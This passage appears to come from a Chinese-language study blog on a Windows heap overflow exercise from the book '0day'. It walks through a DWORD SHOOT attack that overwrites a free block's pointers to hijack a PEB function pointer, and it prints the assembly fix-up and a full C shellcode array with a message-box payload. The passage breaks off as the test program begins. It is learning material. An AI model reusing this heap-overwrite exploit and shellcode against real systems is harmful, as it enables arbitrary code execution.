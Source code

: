 在`memcpy`后，我们观察`0x00360688`处开始的数据：

![Screen Shot 2018-07-07 at 4.04.36 PM.png]({{ site.url }}/images/0day/F7754357272504AF963AD5CBA990D452.png)

可以发现在200个`0x90`后正好是尾块块首的开始。所以一旦shellcode超过200字节，就将覆盖尾块块首。那么当`h2`再次申请空间时，就会导致DWORD SHOOT。

后面我们的做法是：

- 把前200个字节用真正的弹窗shellcode填充
- 把尾块的前指针覆盖为`0x00360688`，即shellcode开始的地方
- 把尾块的后指针覆盖为`0x7FFDF020`

我们期待在做完以上的工作后，编译运行的程序可以弹窗。

首先是[第三章用过的通用shellcode](quiver:///notes/422E2247-2D65-43F6-96C2-CDE33FEAB65C)，它的大小是168个字节，我们要用`0x90`填充至200个字节。同时，由于shellcode中的函数也要使用到被我们后面修改的PEB中的函数指针，所以我们在shellcode的开头需要修复一下函数指针。具体的汇编指令如下：

```assembly
mov eax, 7ffdf020
mov ebx, 77f82060
mov [eax], ebx
```

其中`0x77f82060`是我们在动态调试的时候从Ollydbg中看到的`0x7ffdf020`处的函数地址，这个值可能随操作系统和补丁版本的变化而变化。

另外，为了防止在DWORD SHOOT之前发生异常，我们要把尾块的块首8个字节从Ollydbg中原封不动复制出来到shellcode相应的位置。这8个字节是

```
\x16\x01\x1A\x00\x00\x10\x00\x00
```

最终shellcode的组成如下：

![Screen Shot 2018-07-07 at 6.07.43 PM.png]({{ site.url }}/images/0day/E55CEA4813A633F847D568B3A545B0C5.png)

调试的过程中遇到一个坑，记录一下：

在完成整个shellcode的组装后，我编译运行总是直接报错，但是看shellcode和作者的shellcode没发现不一样的地方。最后只好写了一个程序去逐字节找不同。终于发现我的shellcode中有部分`\x`被我打成了`\X`，而`\X`在C语言中并不是十六进制的前缀！！！

找这个Bug找了我好久！

修改过后，代码如下（去掉了`INT3`断点）：

```c
#include <windows.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xB8\x20\xF0\xFD\x7F"
"\xBB\x60\x20\xF8\x77"
"\x89\x18"
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"
"\x88\x06\x36\x00\x20\xf0\xfd\x7f";

main()
{
	HLOCAL h1 = 0, h2 = 0;
	HANDLE hp;
```